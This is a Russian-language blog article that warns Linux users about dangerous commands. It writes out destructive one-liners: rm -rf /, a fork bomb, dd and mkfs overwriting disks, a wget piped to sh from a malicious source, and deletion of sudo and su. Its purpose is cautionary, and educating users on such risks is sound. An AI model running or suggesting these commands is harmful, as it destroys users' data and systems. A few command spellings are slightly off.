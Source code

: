 #linux 

Операционная система Linux  с открытым исходным кодом нарастила обороты со временем, но все таки ее еще нельзя назвать по настоящему популярной.

Многих останавливает проблема обучения Линукс, или просто момент перестройки с привычного Windows.

Так же, работа в “никсах” предполагает различые манипуляции с командной строкой.

Но если вы не используете команды Linux полностью отдавая отчет в своих действиях, вы можете потерять свои данные, или повредить свою ОС

В этой статье я собираюсь предоставить информации о опасных командах, на которые необходимо обратить внимание при использовании Linux.

# 1. Команда rm -rf

rm  = используется для удаления файлов  
rm -r = рекурсивно удаляет папку, даже если папка пустая  
rm -f = команда удаляет файлы “только для чтения”  
rm -rf / = удаление всего в корневом каталоге  
rm -rf *  = удаление всего в текущем каталоге  
rm -rf . =  удаление всего в текущей папке и подкаталогах

![[Pasted image 20230102143104.png]]

# mkfs.ext4/dev/sda1

Уже рассматривали недавно mkfs, в статье о [форматировании флешки на Linux.](https://itsecforu.ru/2017/07/28/%d0%ba%d0%b0%d0%ba-%d0%be%d1%82%d1%84%d0%be%d1%80%d0%bc%d0%b0%d1%82%d0%b8%d1%80%d0%be%d0%b2%d0%b0%d1%82%d1%8c-usb-%d1%84%d0%bb%d0%b5%d1%88%d0%ba%d1%83-%d0%b2-astra-linux/)

mkfs.ext4/dev/sda1 – команда, которая форматирует весь жесткий диск и заменяет его новой ext3 файловой системой.

Как только вы выполните команду – все ваши данные потеряны и не могут быть восстановлены.

# :(){:|:&};: -Fork Bomb

Фактически этой командой вы создаете функцию, которая циклически удваивается не может закончится.

Это безобразие будет продолжаться вплоть до того, пока не исчерпает системные ресурсы.

# mv ~/dev/null – Перемещение корневого каталога в никуда

Перемещение чего-либо в /dev/null является тем же самым, что удаление.

Думайте о /dev/null как о пустоте.

По существу mv ~/dev/null посылает все ваши личные файлы в никуда.

# wget http://malicious_source-O-| sh

Эта команда состоит в том, чтобы загрузить скрипт из источника, и выполнить его.

Команда ‘wget’ загружает скрипт, и команда ‘sh’ выполняет загруженный скрипт.

Нужно всегда загружать пакеты и скрипт от надежного источника.

# dd if=/dev/random of=/dev/sda

Утилитой dd мы уже пользовались в статье [“как создать образ Astra Linux”](https://itsecforu.ru/2017/07/07/%d0%ba%d0%b0%d0%ba-%d1%81%d0%be%d0%b7%d0%b4%d0%b0%d1%82%d1%8c-%d0%be%d0%b1%d1%80%d0%b0%d0%b7-asra-linux-%d1%81%d0%ba%d1%80%d0%b8%d0%bf%d1%82/)

the dd if=/dev/random of=/dev/sda удаляет все файлы/файловые системы жесткого диска.

# > file

Команда ” > ” используется, чтобы сбросить содержание файл.

# Команда > /dev/sda

Команда ” > /dev/sda ” еще более проста; любая команда, которую вы выполняете (вместо “команды”) запишет выходные данные в первый жесткий диск, заменив все файлы и папки.

Эта команда поочередно повреждает вашу всю файловую систему.

# rm -f /usr/bin/sudo;rm -f /bin/su

Эти команды позволяют отключить две из самых важных команд на Linux: sudo и su.

Эти два действия позволяют вам выполнять другие команды с полномочиями root.